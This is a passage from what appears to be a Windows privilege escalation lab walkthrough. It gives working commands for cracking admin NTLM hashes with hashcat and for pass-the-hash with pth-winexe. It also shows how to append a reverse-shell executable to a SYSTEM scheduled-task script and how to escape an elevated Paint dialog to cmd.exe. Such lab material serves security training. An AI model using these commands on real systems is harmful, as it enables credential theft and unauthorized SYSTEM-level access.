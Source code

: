 3. Crack the admin NTLM hash using hashcat:

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

4. You can use the cracked password to log in as the admin using winexe or RDP.

## Passwords - Passing the Hash 
Why crack a password hash when you can authenticate using the hash?

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```

##  Scheduled Tasks 


1. View the contents of the C:\DevTools\CleanUp.ps1 script:

```
type C:\DevTools\CleanUp.ps1
```

2. The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

3. Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.

## Insecure GUI Apps 


1. Start an RDP session as the "user" account:

```
rdesktop -u user -p password321 MACHINE_IP
```

2. Double-click the "AdminPaint" shortcut on your Desktop. Once it is running, open a command prompt and note that Paint is running with admin privileges:

```
tasklist /V | findstr mspaint.exe
```

3. In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe
